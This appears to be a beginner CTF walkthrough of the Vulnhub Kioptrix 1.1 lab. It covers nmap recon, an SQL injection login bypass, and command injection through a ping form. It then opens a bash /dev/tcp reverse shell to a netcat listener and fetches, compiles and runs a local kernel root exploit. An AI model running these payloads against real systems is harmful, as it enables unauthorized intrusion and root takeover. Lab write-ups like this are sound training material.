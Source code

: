# CTF #4 - Kioptrix 1.1
Today I'm hacking into **Kioptrix 1.1**. Or Kioptrix #2. Whatever. This is one of the many **beginner-friendly OSCP-like** CTFs of Vulnhub. So it's a great starting point for preparing the OSCP tests. If you want to start with the previous level, check my walkthrough [**here!**](https://github.com/amtzespinosa/kioptrix-walkthrough)

But first, let's have a look to my setup:
## My Setup
- A VirtualBox VM running **Kali Linux.** 
- Another VM running **Kioptrix 1.1** You can download the .vmdk file **[**here.**](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)**
- A **local network** for both machines. If you want to know how to set up a local network for your VirtualBox adventures, follow [**this simple tutorial.**](https://github.com/amtzespinosa/secure-network-for-ctf)
- Coffee. You always need coffee for hacking.
- And today, to season this CTF session... Let's play some [**Instrumental Heavy Metal.**](https://www.youtube.com/watch?v=qY7_cQAubL0&t=3285s)

Now you are all set up and ready to go!

## Recon
As always, let's start with some recon with our ol' good friend **Nmap**. Let's run a fast/aggressive scan over the network. To do so, I use this command:

    sudo nmap -T4 -O -v 192.168.1.1/24

> **Note:** In real world situations, this scans may trigger firewalls and other network security appliances (in case the network is secure). If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable.

Okay, we are getting a good amount of info about Kioptrix 1.1. Let's have a look to the output while we run a more focused scan over Kioptrix.

    Nmap scan report for 192.168.1.38
    Host is up (0.00041s latency).
    Not shown: 994 closed tcp ports (reset)
    
    PORT     STATE SERVICE
    
    22/tcp   open  ssh
    80/tcp   open  http
    111/tcp  open  rpcbind
    443/tcp  open  https
    631/tcp  open  ipp
    3306/tcp open  mysql
    
    MAC Address: 08:00:27:79:1B:6D (Oracle VirtualBox virtual NIC)
    Device type: general purpose
    Running: Linux 2.6.X
    OS CPE: cpe:/o:linux:linux_kernel:2.6
    OS details: Linux 2.6.9 - 2.6.30
    Uptime guess: 0.003 days (since Mon May 29 21:52:38 2023)
    Network Distance: 1 hop
    TCP Sequence Prediction: Difficulty=206 (Good luck!)
    IP ID Sequence Generation: All zeros

Let's start with the second scan.

    sudo nmap -p- -T4 -A -v 192.168.1.38

Whoa! A lot of info to review here:

    Nmap scan report for 192.168.1.38
    Host is up (0.00040s latency).
    Not shown: 65528 closed tcp ports (reset)
    
    PORT     STATE SERVICE  VERSION
    
    22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
    |_sshv1: Server supports SSHv1
    | ssh-hostkey: 
    |   1024 8f3e8b1e5863fecf27a318093b52cf72 (RSA1)
    |   1024 346b453dbacecab25355ef1e43703836 (DSA)
    |_  1024 684d8cbbb65abd7971b87147ea004261 (RSA)
    
    80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
    |_http-title: Site doesn't have a title (text/html; charset=UTF-8).
    | http-methods: 
    |_  Supported Methods: GET HEAD POST OPTIONS
    |_http-server-header: Apache/2.0.52 (CentOS)
    
    111/tcp  open  rpcbind  2 (RPC #100000)
    | rpcinfo: 
    |   program version    port/proto  service
    |   100000  2            111/tcp   rpcbind
    |   100000  2            111/udp   rpcbind
    |   100024  1            761/udp   status
    |_  100024  1            764/tcp   status
    
    443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
    | sslv2: 
    |   SSLv2 supported
    |   ciphers: 
    |     SSL2_RC4_128_WITH_MD5
    |     SSL2_RC4_64_WITH_MD5
    |     SSL2_RC4_128_EXPORT40_WITH_MD5
    |     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
    |     SSL2_DES_192_EDE3_CBC_WITH_MD5
    |     SSL2_DES_64_CBC_WITH_MD5
    |_    SSL2_RC2_128_CBC_WITH_MD5
    |_http-title: Site doesn't have a title (text/html; charset=UTF-8).
    | http-methods: 
    |_  Supported Methods: GET HEAD POST OPTIONS
    | ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
    | Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
    | Public Key type: rsa
    | Public Key bits: 1024
    | Signature Algorithm: md5WithRSAEncryption
    | Not valid before: 2009-10-08T00:10:47
    | Not valid after:  2010-10-08T00:10:47
    | MD5:   01de29f9fbfb2eb2beafe6243157090f
    |_SHA-1: 560c91966506fb0ffb8166b1ded3ac112ed4808a
    |_ssl-date: 2023-05-30T02:01:42+00:00; +5h59m59s from scanner time.
    |_http-server-header: Apache/2.0.52 (CentOS)
    
    631/tcp  open  ipp      CUPS 1.1
    | http-methods: 
    |   Supported Methods: GET HEAD OPTIONS POST PUT
    |_  Potentially risky methods: PUT
    |_http-title: 403 Forbidden
    |_http-server-header: CUPS/1.1
    
    764/tcp  open  status   1 (RPC #100024)
    
    3306/tcp open  mysql    MySQL (unauthorized)
    
    MAC Address: 08:00:27:79:1B:6D (Oracle VirtualBox virtual NIC)
    Device type: general purpose
    Running: Linux 2.6.X
    OS CPE: cpe:/o:linux:linux_kernel:2.6
    OS details: Linux 2.6.9 - 2.6.30
    Uptime guess: 0.006 days (since Mon May 29 21:52:38 2023)
    Network Distance: 1 hop
    TCP Sequence Prediction: Difficulty=206 (Good luck!)
    IP ID Sequence Generation: All zeros
    
    Host script results:
    |_clock-skew: 5h59m58s
   

We can see some interesting ports open here. 

Port 22: Nothing interesting so far.

So let's start with HTTP/S. We have both ports open. **Port 80 is for http and port 443 for https.**  So the first thing we are going to do is open the browser and search for http://192.168.1.38 (in my case). We find a login page, let's keep going with the recon before trying anything here.

Visiting http://192.168.1.38:3306/ we see we are not allowed to connect to the MySQL server. 

Done with the recon then!

Back to the login page. This cheap looking login form is crying for some SQLi attempts. And so we do!  As soon as we try the good ol' vanilla `admin' or 1=1 #` in the username text field we get access to the administrator page!

Now we see another text field for pinging hosts in the same network. Let's ping ourselves and check the output:

    192.168.1.23
    
    PING 192.168.1.23 (192.168.1.23) 56(84) bytes of data.
    64 bytes from 192.168.1.23: icmp_seq=0 ttl=64 time=0.475 ms
    64 bytes from 192.168.1.23: icmp_seq=1 ttl=64 time=1.05 ms
    64 bytes from 192.168.1.23: icmp_seq=2 ttl=64 time=0.808 ms
    
    --- 192.168.1.23 ping statistics ---
    3 packets transmitted, 3 received, 0% packet loss, time 2000ms
    rtt min/avg/max/mdev = 0.475/0.780/1.058/0.239 ms, pipe 2

Looks like the output we get when pinging from the console so... would it be vulbnerable to **RCE (Remote Code Execution)**? Let's try to submit `192.168.1.23; whoami`

    192.168.1.23; whoami
    
    PING 192.168.1.23 (192.168.1.23) 56(84) bytes of data.
    64 bytes from 192.168.1.23: icmp_seq=0 ttl=64 time=0.713 ms
    64 bytes from 192.168.1.23: icmp_seq=1 ttl=64 time=0.569 ms
    64 bytes from 192.168.1.23: icmp_seq=2 ttl=64 time=0.647 ms
    
    --- 192.168.1.23 ping statistics ---
    3 packets transmitted, 3 received, 0% packet loss, time 2000ms
    rtt min/avg/max/mdev = 0.569/0.643/0.713/0.058 ms, pipe 2
    apache

Oh yeah! Vulnerable to RCE! We can `cat` the `/etc/passwd` to do some user enumeration as well. But why we don't just start a shell?

**On attaker's machine:**

    sudo nc -nvlp 443

**In the ping text field:**

    192.168.1.23 ; bash -i >& /dev/tcp/192.168.1.23/443 0>&1

And we have a shell! Now it's time to escalate privileges!

First, let's find out the kernel version and the release.

    uname -a
And we see that **kernel is 2.6.9**. Now, let's cat the release:

    cat /etc/*-release
And release is **CentOS 4.5** (final).

Back to our machine, let's find an exploit that suits best for these features:

    searchsploit linux 2.6 CentOS 

And there's an exploit that seems to fit our purpose. Let's mirror it into our machine:

    searchsploit -m linux/local/9545.c

Now we have to copy it into the `/var/www/html` folder and start apache.

    sudo service apache2 start
 
Back to kioptrix:

    wget 192.168.1.23/9545.c
    gcc 9545.c -o exploit
    chmod 777 exploit
    ./exploit

And there we go! Now we are root! Hope you find this easy CTF as fun as I did. I know, it's quite easy to hack into but, as I said, this is a beginner-friendly machine. It's good for learning the basics. See you soon and happy hacking!
